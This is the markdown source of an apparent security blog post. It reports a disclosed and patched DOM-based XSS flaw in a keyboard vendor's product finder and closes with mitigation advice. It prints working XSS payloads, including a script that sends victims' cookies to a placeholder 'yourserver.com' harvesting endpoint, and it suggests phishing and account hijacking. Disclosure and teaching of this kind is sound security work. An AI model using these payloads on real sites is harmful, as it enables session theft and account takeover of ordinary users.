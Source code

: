 ```yaml
---
layout: post
title: "Zero-Day Research:  Mechanical Keyboard Finder Version 4.31"
featured-img: mk0day
author: Josiah Bryan
category: [Zero Day Research]
---
```


## Introduction
In this edition of *Zero-Day Research*, I happen to come across a DOM-based Cross Site Scripting Vulnerability in 'Mechanical Keyboard's (MK's) Famous Mechanical Keyboard Finder (Version 4.31)' and helped their team verify the issue upon request. I have to give lots of kudos to the awesome security team at MK. They quickly responded and patched the issue within a day of disclosure. If more vendors were as serious as MK about security, our nation's overall cyber posture would be in much better shape. MK is an industry-leading mechanical keyboard vendor with unique varieties of mechanical keyboards for sale. You can check them out [here](https://mechanicalkeyboards.com).

## Disclosure and Disclaimer
The Cross Site Scripting vulnerability was responsibly disclosed and verified (upon request) to the MK security team. This post was intended for web developers who are interested in keeping their applications secure and is for **EDUCATIONAL PURPOSES ONLY**. I do not condone illegal activity and cannot be held responsible for the misuse of this information.

## Cross Site Scripting
Cross-Site Scripting (XSS) is a common web vulnerability that allows an attacker to inject malicious javascript into normal websites. XSS is a client-side attack, where the end-user connecting to the application is the victim. This enables attackers to steal credentials, hijack accounts, access sensitive data, and much more. For more information on cross-site scripting, PortSwigger has fantastic in-depth [articles](https://portswigger.net/web-security/cross-site-scripting) explaining the different types of XSS and how they can impact end-users.

## DOM Based XSS
[OWASP](https://www.owasp.org/index.php/DOM_Based_XSS) refers to DOM Based XSS as "an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment”. The DOM in this context is the "Document Object Model", or the tree structure and programming interface that is used to construct HTML web pages:


![DOMexample](/assets/img/posts/DOMexample.png)<br/>


DOM-based XSS can be more difficult to discover than other forms of XSS because it requires a detailed review of how and where the user input is stored within the DOM. Context is the most important aspect when searching for DOM XSS because the location where user input is stored will almost certainly be different in each scenario and application.

## Identifying Vulnerable Parameters
The overall process for identifying DOM XSS bugs is simple:

1. See if the application stores user input somewhere in the DOM
2. See if the application filters certain characters or sanitizes the input. If the application sanitizes user input using techniques like HTML or javascript encoding, DOM XSS might not exist in the application.
3. If the application stores user input without sanitization, you can guarantee some extent of XSS is possible. Even with a Web Application Firewall (WAF) in play, there is an infinite amount of XSS filter bypasses that can be applied to the payload. Only upon request with full permission from the vendor should you every POC (or verify) the vulnerability on a live application. Given that we have permission to verify, we can then start crafting an attack based on where the input is stored in the DOM.

Let's start with a basic request like so:

```
xss
```

We can then search for our unique 'xss' term in the DOM after the request has been made:
* In Firefox (or any browser), right-click on the results page and select 'View Page Source':
* On the HTML source page, select Control/Command+f the find a term


![source](/assets/img/posts/basic_source.png)
<br/>
<br/>

After verifying the location and presence of our search term in the DOM we can add a few special characters to the end of the term like so:

```
xss>"'
```


Repeating the previous few steps we can verify if our new search term is stored in the DOM without being converted to an HTML entity. A basic list of basic HTML entities is shown below:

![entities](/assets/img/posts/entities_html.png)

In this particular situation, the special characters were not converted to HTML entities. That being said, we can close off the encompassing attribute or tag as a part of our search term and effectively add our code to the DOM.


## Payload Crafting

In this context we want to craft a payload that closes off the quote and preceding h3 tag and continue to execute some code:
```
Sample payload: 

'</h3><img src=x onerror=prompt(document.domain)>
```
This will cleanly close off the encompassing h3 tag and allow us to execute code that will pop up an alert to the screen with the name of the vulnerable domain:

![alert](/assets/img/posts/domain_redac.png)

It worked! <br/><br/>**Note**: in scenarios where the application does some form of basic input sanitization searching for bad characters we could url encode our payload like so:

```
Sample payload encoded: 
%3C%2Fh3%3E%3Cimg%20src%3Dx%20onerror%3Dprompt%28document.domain%29%3E
```

## Taking it Further
This XSS bug not only modifies the DOM but is reflected in the URL. This means we could carry out the XSS attack by providing a simple link in a phishing campaign. Collecting user cookies at this point is trivial:

```
'</h3><img src=x onerror=prompt(document.cookie)>
```

![cookies](/assets/img/posts/cookie_redac.png)

Harvesting cookies and shipping them off to a remote server is also quite simple:
```
'</h3><script>document.location='http://yourserver.com/cookieharvest.php?d='+document.cookie;</script>
```

From here the possibilities are endless. There are quite a few XSS [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) on the web. Some possible attack scenarios include: 

* Account Hijacking
* Port Scanning
* Spying/Keylogging
* Browser Hooking with [BeEF](https://beefproject.com/)
* Installing Backdoors/Malware

## Mitigation

DOM XSS can be hard for automated scanners to find at times because of its dynamic nature. This type of bug is quite common across the Internet but can be prevented by treating all user input as malicious and sanitizing the data in question. 

PHP (the language used by this site) offers useful functions to achieve sanitization, such as [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) and [htmlentities()](https://www.php.net/manual/en/function.htmlentities.php). These functions will automatically convert special characters to HTML entities. Most languages offer these types of libraries and functions to make sanitizing user input quite easy. One mistake developers make is attempting to implement filtering and sanitization using client-side controls. Each user has complete control over the client, rendering client-side sanitization efforts useless.

## References

* https://portswigger.net/web-security/cross-site-scripting
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 
* https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html 
* https://www.owasp.org/index.php/Testing_for_Cross_site_scripting
* https://www.geeksforgeeks.org/dhtml-javascript/
* https://mechanicalkeyboards.com/about.php 
* https://www.owasp.org/index.php/DOM_Based_XSS
* https://www.w3schools.com/html/html_entities.asp
* https://www.google.com/about/appsecurity/learning/xss/
* https://www.php.net/manual/en/function.htmlspecialchars.php
* https://www.php.net/manual/en/function.htmlentities.php

<br/><br/>
**Proverbs 2:6-8**<br/>
For the Lord gives wisdom; from his mouth come knowledge and understanding...
